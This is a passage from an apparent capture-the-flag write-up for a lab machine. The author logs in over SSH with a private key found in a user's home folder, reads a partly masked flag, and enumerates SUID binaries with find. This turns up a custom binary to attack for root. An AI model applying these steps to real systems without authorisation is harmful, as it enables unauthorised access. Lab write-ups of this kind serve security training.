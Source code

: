 
I’ll note those for later. But more importantly there’s a `.ssh` folder in
`dexter` and it has a private key in it:

![image-20210307061924490](https://0xdfimages.gitlab.io/img/image-20210307061924490.png)

#### Connect

Using the private key, I can get a shell as dexter:

    
    
    oxdf@parrot$ ssh -i ~/keys/laboratory_dexter dexter@10.10.10.216
    dexter@laboratory:~$
    

And get `user.txt`:

    
    
    dexter@laboratory:~$ cat user.txt
    47516221************************
    

## Shell as root

### Enumeration

Looking at the SUID binaries on the box, one jumped out as something custom to
this box:

    
    
    dexter@laboratory:~$ find / -perm -4000 -user root -ls 2>/dev/null | grep -v snap
         7838     20 -rwsr-xr-x   1 root     dexter             16720 Aug 28  2020 /usr/local/bin/docker-security
         2996    164 -rwsr-xr-x   1 root     root              166056 Jan 19 14:21 /usr/bin/sudo
         9426     44 -rwsr-xr-x   1 root     root               44784 May 28  2020 /usr/bin/newgrp
         1093     68 -rwsr-xr-x   1 root     root               67816 Apr  2  2020 /usr/bin/su
         2937     88 -rwsr-xr-x   1 root     root               88464 May 28  2020 /usr/bin/gpasswd
          672     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
         2932     84 -rwsr-xr-x   1 root     root               85064 May 28  2020 /usr/bin/chfn
          892     32 -rwsr-xr-x   1 root     root               31032 Aug 16  2019 /usr/bin/pkexec
         1163     40 -rwsr-xr-x   1 root     root               39144 Apr  2  2020 /usr/bin/umount
         2933     52 -rwsr-xr-x   1 root     root               53040 May 28  2020 /usr/bin/chsh
          824     56 -rwsr-xr-x   1 root     root               55528 Apr  2  2020 /usr/bin/mount
         2941     68 -rwsr-xr-x   1 root     root               68208 May 28  2020 /usr/bin/passwd
         1377     16 -rwsr-xr-x   1 root     root               14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
        14032     52 -rwsr-xr--   1 root     messagebus         51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
         1592     24 -rwsr-xr-x   1 root     root               22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
        11830    464 -rwsr-xr-x   1 root     root              473576 May 29  2020 /usr/lib/openssh/ssh-keysign
    

`/usr/local/bin/docker-security` is probably what was referenced in the
`todo.txt` from the repo.
